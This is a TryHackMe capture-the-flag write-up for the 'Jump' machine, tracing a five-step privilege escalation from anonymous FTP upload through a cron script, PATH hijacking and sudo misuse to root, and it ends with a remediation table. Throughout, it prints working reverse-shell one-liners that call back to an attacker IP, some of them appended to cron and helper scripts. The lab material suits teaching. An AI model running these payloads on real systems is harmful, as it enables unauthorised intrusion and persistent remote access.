










# Jump — TryHackMe Writeup
**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.67.146.53 | **Attacker IP:** 192.168.131.193

## Machine info


## Summary
**Jump** is a TryHackMe machine built around a five-stage privilege escalation chain, where each account is compromised by abusing artifacts left behind for the next user in line. An anonymous FTP recon pipeline run by recon_user accepts and executes uploaded scripts, giving the first foothold; pspy64 then exposes a cron job that recon_user can edit because of a shared group, handing over dev_user; a reverse shell planted inside a PATH-hijackable ps decoy is caught by monitor_user's own healthcheck loop; a misconfigured sudo rule lets monitor_user overwrite a deploy helper script to pivot into ops_user; and a final NOPASSWD sudo rule for less is abused through GTFOBins to reach root.

**Attack chain:** FTP Anonymous Upload → recon_user → pspy64 Enumeration → dev_user → PATH Hijacking → monitor_user → Sudo Deploy Script → ops_user → GTFOBins (less) → Root

## 1. Reconnaissance
A full TCP port scan found only FTP and SSH open, with anonymous FTP login allowed and a world-writable `incoming` directory:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.67.146.53

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 62 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 115      123          4096 Apr 30  2026 incoming [NSE: writeable]
|_drwxr-xr-x    4 115      123          4096 Jun 09 08:22 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.131.193
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ca:b3:e8:77:95:1d:c2:11:9f:7d:eb:4f:b0:54:e7:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJQM/MQ0A8JLhF1DtttooOJwrduQiyRg0GfPhmSSo4uhUMomzmEVc/5ylNi7pArrC2yFj3PGMZ2zfZrJblM+jgQ=
|   256 ff:e2:43:5b:68:11:e3:04:af:fc:58:fd:da:2d:7e:ea (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIL0rDcwkpNgbnRvPVhPkcyEhAVVhUmyTLY4+vjO+Zmro
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. FTP Anonymous Upload — recon_user
Logging in to the FTP server as `Anonymous` revealed two directories, `incoming` and `pub`. Inside `pub`, a `README.txt` explained the service's purpose:

```
cat README.txt
[ recon pipeline ]

All recon jobs must be placed in incoming/.
Files are processed automatically on arrival.
Invalid formats are ignored.
```

This meant any script dropped into `incoming` would eventually be executed. A reverse shell payload was crafted and uploaded there:

```
echo "bash -i >& /dev/tcp/192.168.131.193/4444 0>&1" > revshell.sh
```

```
ftp> cd incoming
250 Directory successfully changed.
ftp> put revshell.sh
226 Transfer complete.
```

The recon pipeline's cron job picked up the script, and a shell came back as `recon_user`:



The TTY was stabilized before continuing:

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```



## 3. Privilege Escalation to dev_user
`pspy64` was downloaded locally:

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

And served over a quick HTTP server:

```
python3 -m http.server
```

It was then pulled onto the target:

```
wget http://192.168.131.193:8000/pspy64
```

And made executable:

```
chmod +x pspy64
```

Running it surfaced process activity from every account on the box:

```
./pspy64
```

Among the recurring cron executions, a job running as `dev_user` (UID 1002) stood out, alongside `monitor_user`'s (UID 1003) own loop:

```
2026/11/01 10:41:01 CMD: UID=1002  PID=3178   | /bin/sh -c /bin/bash /opt/dev/backup.sh 
2026/11/01 10:41:01 CMD: UID=1002  PID=3180   | /bin/bash /opt/dev/backup.sh 
...
2026/11/01 10:41:02 CMD: UID=1003  PID=3187   | /bin/bash /usr/local/bin/healthcheck 
...
2026/11/01 10:42:01 CMD: UID=1001  PID=3230   | /bin/sh -c /bin/bash /opt/recon/scan_uploads.sh 
```

`backup.sh` was group-writable, and `recon_user` belonged to the `dev_user` group:

```
ls -la /opt/dev/backup.sh
-rwxrwxr-x 1 dev_user dev_user 60 Jun  9 09:03 /opt/dev/backup.sh
```

```
cat /opt/dev/backup.sh
#!/bin/bash
tar -czf /tmp/recon_backup.tgz /home/recon_user
```

```
id
uid=1001(recon_user) gid=1001(recon_user) groups=1001(recon_user),1002(dev_user),1005(devops)
```

A reverse shell line was appended to the script, keeping the original `tar` command intact to avoid suspicion:

```
echo 'bash -i >& /dev/tcp/192.168.131.193/5555 0>&1' >> /opt/dev/backup.sh
```

The next cron execution handed back a shell as `dev_user`. The same TTY stabilization sequence was reapplied here.





## 4. PATH Hijacking — monitor_user
The earlier `pspy64` output already flagged `/usr/local/bin/healthcheck` looping as `monitor_user` every five seconds. The script was owned by `monitor_user` and its `ps aux` call was made without an absolute path:

```
ls -la /usr/local/bin/healthcheck
-rwxr-xr-x 1 monitor_user monitor_user 98 Apr 29  2026 /usr/local/bin/healthcheck
```

```
cat /usr/local/bin/healthcheck
#!/bin/bash
echo "Running as: $(whoami)"
while true; do
  ps aux | grep -v grep
  sleep 5
done
```

The script itself wasn't writable, and `dev_user`'s groups confirmed there was no overlap with `monitor_user` to abuse directly:

```
id
uid=1002(dev_user) gid=1002(dev_user) groups=1002(dev_user),1005(devops)
```

Since `healthcheck` calls `ps` with no absolute path, dropping a fake `ps` into a directory ahead of the real one in `monitor_user`'s `PATH` would let it run instead. Inside `/opt/dev/bin`, owned by `dev_user`, a decoy `ps` file was already planted — not executable, and containing an unrelated reverse shell, a hint that this directory was the one to target:

```
ls -la
-rw-rw-r-- 1 dev_user dev_user   62 Apr 26  2026 ps
```

```
cat ps 
#!/bin/bash
setsid bash -i >& /dev/tcp/10.82.84.138/5557 0>&1
```

The file was writable, so it was overwritten with a new payload:

```
echo 'setsid bash -i >& /dev/tcp/192.168.131.193/6666 0>&1' > /opt/dev/bin/ps
```

And made executable:

```
chmod +x /opt/dev/bin/ps
```

`healthcheck`'s next `ps aux` call picked up the hijacked binary from `/opt/dev/bin`, returning a shell as `monitor_user`. The same TTY stabilization sequence was reapplied here.





## 5. Privilege Escalation to ops_user
`sudo -l` showed `monitor_user` could run a deploy script as `ops_user` without a password:

```
sudo -l
User monitor_user may run the following commands on tryhackme-2404:
    (ops_user) NOPASSWD: /usr/local/bin/deploy.sh
```

```
cat /usr/local/bin/deploy.sh
#!/bin/bash
cd /opt/app 2>/dev/null
./deploy_helper.sh
```

`deploy_helper.sh` was owned by `monitor_user`, with write permission for its owner:

```
ls -la /opt/app/
drwxr-xr-x 3 ops_user     ops_user     4096 Feb  2  2026 .
drwxr-xr-x 5 root         root         4096 Feb  2  2026 ..
drwxrwxr-x 2 monitor_user monitor_user 4096 Feb  2  2026 data
-rwxr-xr-x 1 monitor_user monitor_user   90 Feb  2  2026 deploy_helper.sh
```

```
cat /opt/app/deploy_helper.sh
#!/bin/bash
echo "[+] Deploy helper running"
echo "[+] Syncing application files"
sleep 2
```

The script was overwritten with a reverse shell and triggered through the NOPASSWD rule:

```
echo '#!/bin/bash' > /opt/app/deploy_helper.sh
echo 'bash -i >& /dev/tcp/192.168.131.193/7777 0>&1' >> /opt/app/deploy_helper.sh
sudo -u ops_user /usr/local/bin/deploy.sh
```

This returned a shell as `ops_user`.



The same TTY stabilization sequence was reapplied here.



## 6. Privilege Escalation to Root — GTFOBins (less)
`sudo -l` as `ops_user` revealed a NOPASSWD rule for `less` as root:

```
sudo -l
User ops_user may run the following commands on tryhackme-2404:
    (root) NOPASSWD: /usr/bin/less
```

Since `less` is a GTFOBins binary, spawning a shell from within its interactive session inherited root privileges:





## Root Cause & Remediation
| Issue | Fix |
|---|---|
| Anonymous FTP upload directory processed automatically by cron | Disable anonymous write access; never auto-execute uploaded content |
| `backup.sh` group-writable, group shared with a lower-privileged user | Restrict script permissions to the owning user; avoid sharing trust groups across privilege tiers |
| `healthcheck` calling `ps` without an absolute path | Always use absolute paths for binaries inside scripts run by privileged cron jobs |
| `deploy_helper.sh` writable by the account it is used to escalate from | Separate ownership of helper scripts from the accounts allowed to trigger them via sudo |
| NOPASSWD sudo rule for `less`, a GTFOBins binary | Avoid granting sudo on binaries with known shell-escape functionality; restrict to specific safe arguments |
